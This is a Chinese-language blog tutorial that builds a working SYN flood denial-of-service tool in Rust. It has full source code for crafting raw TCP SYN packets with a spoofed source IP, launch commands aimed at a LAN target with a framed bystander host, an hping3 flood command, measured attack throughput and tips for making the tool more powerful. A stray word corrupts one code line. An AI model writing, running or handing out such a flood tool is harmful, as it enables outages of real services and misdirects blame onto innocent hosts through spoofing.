




Rust 黑客编程 - SYN Flood 敲开 DDoS 的大门
2022-06-03T16:01:32+08:00 | 3分钟阅读 | 更新于 2022-06-03T16:01:32+08:00
概述
DDoS 介绍: https://www.cloudflare.com/zh-cn/learning/ddos/what-is-a-ddos-attack/
如果黑客攻击技术有层次之分, 那么 DDoS 攻击可以比喻为: 花钱请了一堆打手,攻击目标, 没有什么技术含量又有效果,目标也要付出不少成本才能防护的了.
那 Rust 能编写 DDoS 软件吗? 答案当然是可以的,基本上所有语言都可以编写.
DDoS 工具说到底就是充分利用了网络协议的标准, 然后不讲道理恶意利用而以. 第一个 D, distributed , 分布式, 就不在我们今天内容的范畴了, 后面将结合其他内容一起写.
DDoS 攻击大多数发生在 3,4,7 层网络, SYN Flood 就是在 TCP 协议上实现的.
SYN Flood 原理
SYN Flood 介绍: https://www.cloudflare.com/zh-cn/learning/ddos/syn-flood-ddos-attack/
SYN 洪水攻击主要是利用 TCP 协议握手规则, 大致就是不停的只伸手, 就不和对方握手,导致对方一直准备着和你握手, 就没法完成其他正常的握手动作了.
那丛技术实现原理来看, 就是不停的构建 TCP-SYN 数据包,发给目标 IP 地址, 对于目标响应的 SYN/ACK 信息不做处理, 甚至是伪造发送端 IP ,使得目标将响应的 SYN/ACK 发送到其他 IP 地址去.
准备工作
- 还是使用 pnet 库 (基于 pcap)
- 尝试伪造 IP (伪造 IP 对于公网 ISP 服务商基本都限制了,可以在内网实现).
- TCP 协议就不展开讲了.
编码实现
创建项目, 并且添加基本以来 cargo add 的功能来自 cargo-edit 这个项目, 如果系统没有,可以使用 cargo install cargo-edit 安装该功能
cargo new syn-flood-demo
cd syn-flood-demo
cargo add pnet
cargo add pnet_transport
cargo add rand
cargo add anyhow
cargo add clap -F derive
Demo 代码
use std::net::Ipv4Addr;
use clap::Parser;
use pnet::{packet::{tcp::{TcpPacket, MutableTcpPacket, TcpFlags, ipv4_checksum, TcpOption}, ipv4::{MutableIpv4Packet, checksum, Ipv4Flags}, ip::IpNextHeaderProtocols}, };
use pnet_transport::transport_channel;
use pnet_transport::TransportChannelType::Layer3;
use rand::{random, thread_rng, Rng};
#[derive(Parser, Debug)]
#[clap(author, version, about, long_about = None)]
struct Args {
#[clap(short, long)]
target:String,
#[clap(short, long)]
source:String,
#[clap(short, long)]
port:u32,
#[clap(short, long)]
count:u32
}
const IPV4_HEADER_LEN: usize = 20;
const TCP_HEADER_LEN: usize = 32;
const TEST_DATA_LEN: usize = 1024;
fn main() {
let args = Args::parse();
println!("args:{:?}",args);
// 选择 3 层 IPv4 协议, 构建发送器
let protocol = Layer3(IpNextHeaderProtocols::Ipv4);
let(mut tx, _) = match transport_channel(64,protocol) {
Ok(( tx, rx)) => (tx,rx),
Err(e) => panic!("Error happened {}", e),
};
let target: Ipv4Addr = args.target.clone().parse().unwrap();
// 根据 --count -c 这个参数设置发送的数据包数量
// TODO 可以改成多线程发送,性能能再提高
for _ in 0..args.count {
// 构建数据包
let mut packet = [0u8; IPV4_HEADER_LEN + TCP_HEADER_LEN + TEST_DATA_LEN];
let packet = build_packet(args.source.clone(), args.target.clone(), args.port, &mut packet[..]);
//println!("packet:{:#?}",packet);
// 发送数据包到目标地址
tx.send_to(packet,std::net::IpAddr::V4(target));
}
}
fn build_packet(source:String,target:String,port:u32,packet: &mut [u8]) -> TcpPacket{
// Set data
packet[IPV4_HEADER_LEN + TCP_HEADER_LEN] = 't' as u8;
packet[IPV4_HEADER_LEN + TCP_HEADER_LEN + 1] = 'e' as u8;
packet[IPV4_HEADER_LEN + TCP_HEADER_LEN + 2] = 's' as u8;
packet[IPV4_HEADER_LEN + TCP_HEADER_LEN + 3] = 't' as u8;情况
let ipv4_source: Ipv4Addr = source.parse().unwrap();
let ipv4_destination:Ipv4Addr = target.parse().unwrap();
{
let len = packet.len();
let mut ip_header = MutableIpv4Packet::new(&mut packet[..]).unwrap();
ip_header.set_next_level_protocol(IpNextHeaderProtocols::Tcp);
ip_header.set_source(ipv4_source);
ip_header.set_flags(Ipv4Flags::DontFragment);
ip_header.set_destination(ipv4_destination);
ip_header.set_ttl(128);
ip_header.set_version(4);
ip_header.set_header_length(5);
let checksum = checksum(&ip_header.to_immutable());
ip_header.set_checksum(checksum);
}
let mut rng = thread_rng();
let mut tcp_header = MutableTcpPacket::new(&mut packet[IPV4_HEADER_LEN..]).unwrap();
tcp_header.set_source(rng.gen_range(1000..5000));
tcp_header.set_destination(port as u16);
tcp_header.set_sequence(random::<u32>());
tcp_header.set_flags(TcpFlags::SYN);
tcp_header.set_window(rng.gen_range(1000..5000));
tcp_header.set_data_offset(8);
tcp_header.set_urgent_ptr(0);
tcp_header.set_options(&[TcpOption::mss(1460), TcpOption::sack_perm(), TcpOption::nop(), TcpOption::nop(), TcpOption::wscale(7)]);
let checksum = ipv4_checksum(&tcp_header.to_immutable(), &ipv4_source, &ipv4_destination);
tcp_header.set_checksum(checksum);
TcpPacket::new(&mut packet[..]).unwrap()
}
测试
我们准备了三只鸡, 用我们的攻击鸡去攻击出头鸡,然后嫁祸给躺枪鸡
- 攻击鸡(Linux, IP:192.168.31.245)
- 出头鸡(Win 10, IP:192.168.31.19)
- 躺枪鸡(Linux, IP:192.168.31.102)
在出头鸡上安装一个 http 服务器,监听 8000 端口, 如果不开一个应用, 来自攻击鸡的流量还是会传输到出头鸡,但是不会有后续 SYN ACK 的数据包.
攻击鸡(192.168.31.245)
cargo build
# 我的程序有四个参数
-t 是目标 ip
-s 是源 ip , 这里局域网可以伪造
-p 目标端口
-c 数据包数量
sudo ./target/debug/syn-flood-demo -s 192.168.31.102 -t 192.168.31.19 -p 8000 -c 1000000
# 上面这个命令在我们的攻击鸡中执行,功能就是向 192.168.31.19, 8000 端口, 发送 1000000 个数据包, 并且伪造 ip: 192.168.31.102
出头鸡(192.168.31.19)
在出头鸡上,我们抓包查看以及看一下系统资源情况
- 空闲情况

- demo 攻击

- hping3 攻击
#hping3 攻击命令
sudo hping3 -i u1 -S -d 1024 -p 8080 192.168.31.19

躺枪鸡
躺枪鸡中使用 wireshark 监听到了出头鸡 发过来的 SYN ACK 数据包.

补充
- 测试中我们的 demo 程序攻击有 30Mbps 左右的流量, cpu 波动 10% 左右, hping3 攻击的流量平均 37Mbps 左右, 这个流量受到 WIFI 环境影响很大,比如干扰,路由器不稳定等, 写文档之前, 我用 demo 测试可以达到 90Mbps 左右, hping3 则有 170Mbps 左右, 这个应该是正常的,我们的程序只是单线程, 还有提升的空间, 只是写文档时候测试达不到那个速率.
- 虽然 cpu 只有 10% 的波动, 但是在
出头鸡做一些 io 的操作,键盘输入, 传建文件什么的相当的卡顿. 攻击不仅消耗目标的流量,而且对 io 操作影响也很大.
小结
- 简单的 syn flood , 可以继续改进, 支持数据包大小等,目前发送 1024字节的 payload.
- 外网的 IP 伪装是需要特定条件的. 现在 ISP 基本都控制了.
- demo 可以升级为多线程的.
- syn 数据包不仅可以用来 DDoS 攻击, 还可以用于端口扫描, 如果发送 SYN , 接收到了 SYN ACK, 则是端口开放,如果没有收到数据包或者收到 RST ACK 则是端口关闭.